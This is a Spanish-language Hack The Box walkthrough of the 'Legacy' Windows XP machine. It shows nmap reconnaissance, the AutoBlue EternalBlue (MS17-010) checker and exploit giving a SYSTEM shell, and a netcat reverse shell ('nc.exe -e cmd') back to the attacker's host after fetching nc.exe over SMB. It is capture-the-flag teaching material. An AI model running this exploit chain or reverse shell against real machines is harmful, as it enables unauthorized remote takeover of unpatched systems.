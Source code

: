 ```yaml
---
title: Hack The Box Legacy
author: k4miyo
date: 2021-09-06
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Windows]
tags: [Windows, Injection]
ping: true
---
```


## Legacy
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.4.

```bash
❯ ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=145 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 145.076/145.076/145.076/0.000 ms

```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.4 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 22:23 CDT
Initiating SYN Stealth Scan at 22:23
Scanning 10.10.10.4 [65535 ports]
Discovered open port 139/tcp on 10.10.10.4
Discovered open port 445/tcp on 10.10.10.4
Completed SYN Stealth Scan at 22:24, 26.44s elapsed (65535 total ports)
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.15s latency).
Scanned at 2021-08-27 22:23:35 CDT for 26s
Not shown: 65532 filtered ports, 1 closed port
Reason: 65532 no-responses and 1 reset
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      REASON
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
           Raw packets sent: 131085 (5.768MB) | Rcvd: 21 (920B)

```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.4
   5   │     [*] Open ports: 139,445
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 

```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p139,445 10.10.10.4 -oN targeted
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 22:26 CDT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h32m17s, deviation: 2h07m16s, median: 4d23h02m17s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1f:58 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-09-02T08:29:19+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.41 seconds
```

Observamos que se encuentra abierto el puerto 445/TCP, por lo que procedemos a validar si es vulnerable al **Eternal Blue**. Descargamos el repositorio AutoBlue-MS17-010 y primeramente, ejecutarmos el archivo `eternal_checker.py`.

[AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
Clonando en 'AutoBlue-MS17-010'...
remote: Enumerating objects: 126, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 126 (delta 40), reused 35 (delta 35), pack-reused 76
Recibiendo objetos: 100% (126/126), 94.22 KiB | 945.00 KiB/s, listo.
Resolviendo deltas: 100% (74/74), listo.
❯ cd AutoBlue-MS17-010/
❯ python eternal_checker.py 10.10.10.4
[*] Target OS: Windows 5.1
[!] The target is not patched
=== Testing named pipes ===
[+] Found pipe 'browser'
[*] Done

```

Con esto validamos que la máquina es vulnerable al exploit, por tanto se procede a ejecutar:

```bash
❯ python zzz_exploit.py -target-ip 10.10.10.4 -port 445 10.10.10.4
[*] Target OS: Windows 5.1
[+] Found pipe 'browser'
[+] Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x821a9da8
SESSION: 0xe20e3190
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
[*] make this SMB session to be SYSTEM
[+] current TOKEN addr: 0xe1bc7030
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1bc70d0
[*] overwriting token UserAndGroups
[*] have fun with the system smb session!
[!] Dropping a semi-interactive shell (remember to escape special chars with ^) 
[!] Executing interactive programs will hang shell!
C:\WINDOWS\system32>
```

Para manejarnos mejor, establecemos una nueva conexión, en caso que en el programa nos bote. Primero nos transferimos el programa **nc.exe**, nos ponemos en escucha por el puerto 443 y procedemos a ejecutar el archivo estableciendo la conexión.

```bash
C:\WINDOWS\system32>mkdir C:\Windows\Temp\test

C:\WINDOWS\system32>copy \\10.10.14.15\smbFolder\nc.exe C:\Windows\Temp\test\nc.exe
        1 file(s) copied.

C:\WINDOWS\system32>
C:\WINDOWS\system32>C:\Windows\Temp\test\nc.exe -e cmd 10.10.14.15 443
```

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1045)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Closing down connection (10.10.10.4,1045)
[*] Remaining connections []

❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.4] 1048
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```

Con esta conexión ya podemos movernos con mayor facilidad. Ya somos administradores del equipo y podemos visualizar las flags (user.txt y root.txt).
